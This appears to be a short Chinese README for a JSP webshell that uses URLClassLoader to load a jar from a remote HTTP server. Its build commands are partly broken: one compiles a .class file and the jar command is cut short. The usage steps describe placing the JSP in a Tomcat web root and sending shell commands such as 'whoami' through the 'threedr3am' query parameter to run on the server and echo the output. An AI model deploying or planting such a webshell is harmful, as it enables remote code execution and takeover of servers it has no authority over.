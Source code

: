 ### URLClassLoader加载远程jar的JSP Webshell

编译打包jar：
```
javac Threedr3am_3.class
jar -cvf 
```

使用：
```
1.把threedr3am.jar放到可被访问的HTTP服务器，例：http://1.1.1.1:23232/threedr3am.jar

2.修改threedr3am.jar加载jar的url

3.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

4.在浏览器访问4.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/4.jsp?threedr3am=whoami

5.服务器将会执行相应的shell命令，最后回显
```